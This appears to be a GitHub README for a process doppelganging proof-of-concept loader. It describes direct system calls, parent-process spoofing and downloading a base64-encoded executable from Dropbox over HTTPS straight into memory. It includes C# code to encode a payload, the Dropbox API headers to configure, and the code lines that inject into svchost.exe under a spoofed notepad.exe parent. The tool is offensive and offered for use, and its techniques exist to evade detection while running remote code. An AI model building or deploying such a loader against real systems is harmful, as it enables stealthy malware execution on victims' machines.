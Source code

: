 # ProcessDoppelganging

Process doppelganging POC using direct system calls, PPID spoofing and HTTPS sockets as an external delivery channel to download the payload directly into memory. As a POC, dropbox is used to deliver the payload but this can me easily modified.

Payload has to be a base64 encoded executable file, I use the following c# code to generate the payloads:

```C#
byte[] data = File.ReadAllBytes(@"C:\Path\to\file.exe");
string payload = Convert.ToBase64String(data);

File.WriteAllText("payload.txt", payload);
```

The following headers need to be modified at sslClient.cpp:37

```C++
LPCWSTR hHeaders = L"Authorization: Bearer <TOKEN>\r\n"
                     "Dropbox-API-Arg: {\"path\": \"/<PATH TO SHELLCODE>\"}\r\n"
                    "Content-Type: text/plain";
```

Parent process process and target application can be modifed at inject.cpp:340

```C++
    wchar_t defaultTarget[] = L"C:\\WINDOWS\\System32\\svchost.exe";
    wchar_t* targetPath = defaultTarget;

    wchar_t parentProcess_[] = L"notepad.exe";
    wchar_t* parentProcess = parentProcess_;
```
